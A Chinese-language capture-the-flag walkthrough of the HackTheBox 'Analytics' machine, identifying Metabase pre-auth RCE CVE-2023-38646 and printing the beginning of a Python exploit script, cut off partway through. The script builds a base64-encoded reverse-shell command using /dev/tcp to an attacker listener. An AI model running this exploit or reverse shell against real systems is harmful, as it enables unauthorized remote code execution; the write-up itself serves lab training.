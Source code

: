 将域名添加到hosts文件中

![image-20231121231602880](../images/image-20231121231602880.png)

login界面

![image-20231121231721442](../images/image-20231121231721442.png)

Metabase登录

找到相应的CVE： CVE-2023–38646

https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/

利用exploit

```python
import requests
import sys
import subprocess
import random
import string
import json
import base64

if len(sys.argv) < 2:
    print("Usage: python3 HTB_Analytics_poc.py <listener ip> <listener port>")
    sys.exit(1)

rnb = random.randint(100000, 999999)
rstr = ''.join(random.choice(string.ascii_uppercase) for _ in range(6))

# Define the URL
url = "http://data.analytical.htb/"

# Step 1: Encode "shell" to base64
original_text = f"sh -i &> /dev/tcp/{sys.argv[1]}/{sys.argv[2]} 0>&1"
base64_encoded = base64.b64encode(original_text.encode()).decode()

# Step 2: Count "=" characters at the end
equals_count = base64_encoded.count('=')
```